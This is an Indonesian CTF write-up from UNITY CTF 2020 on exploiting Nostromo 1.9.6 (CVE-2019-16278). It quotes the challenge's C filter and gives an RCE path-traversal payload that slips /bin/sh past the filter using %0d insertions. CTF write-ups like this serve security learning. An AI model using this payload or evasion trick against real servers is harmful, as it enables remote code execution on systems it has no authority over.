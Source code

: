 ```yaml
---
title: WEB - [Stromeo] UNITY CTF
Kategori: "Web Exploitation"
year: "2020"
author: "sawontene."
published: true
---
```


# Web Exploitation (Author : sawontene.)

![Soal Stromeo](/web/stromeo-soal.png)

Diberikan sebuah link dan file httpd.zip. Setelah kami analisa terdapat clue pada header, dimana web tersebut menggunakan server **Nostromo 1.9.6** yang memiliki Vulnerability terhadap Remote Code Execution (CVE-2019-16278).

![Nostromo](/web/nostromo.png)

Kami mencoba eksploitasi menggunakan [script python](https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py) namun mendapat respon 400 Bad request.

Di dalam file **httpd.zip** terdapat file **http.c** dimana ketika kita menganalisa, request yang menggunakan kata **bin** dan **sh** akan di filter sehingga tidak bisa dieksploitasi.

```
/* check for valid uri */
if (strstr(header, "/../") != NULL || strstr(header, "bin") != NULL || strstr(header, "sh") != NULL) {
    h = http_head(http_s_400, line, cip, 0);
    b = http_body(http_s_400, "", h, 0);
    c[sfd].pfdo++;
    c[sfd].pfdn[hr] = 1;
    c[sfd].pfdh[hr] = strdup(b);
    c[sfd].x_ful[hr] = 1;
    c[sfd].x_chk[hr] = 0;
    c[sfd].x_sta = 0;
    free(h);
    free(b);
    return (0);
}
```

Kita coba membypass kondisi tersebut, dengan payload yang semula

`POST /.%0d./.%0d./.%0d./.%0d./bin/sh`

kemudian kita ubah payload **/bin/sh** dengan menambahkan **%0d** sehingga menjadi

`POST /.%0d./.%0d./.%0d./.%0d./b%0di%0dn/s%0dh`

dan setelah kita mencoba menjalankan script tersebut kembali, benar saja filter tersebut berhasil terbypass.

![Eksploitasi Nostromo](./web/nostromo-rce.png)

`Flag: UNITY2020{Bj1r_CVE-2019-16278_M00m3nt}` 
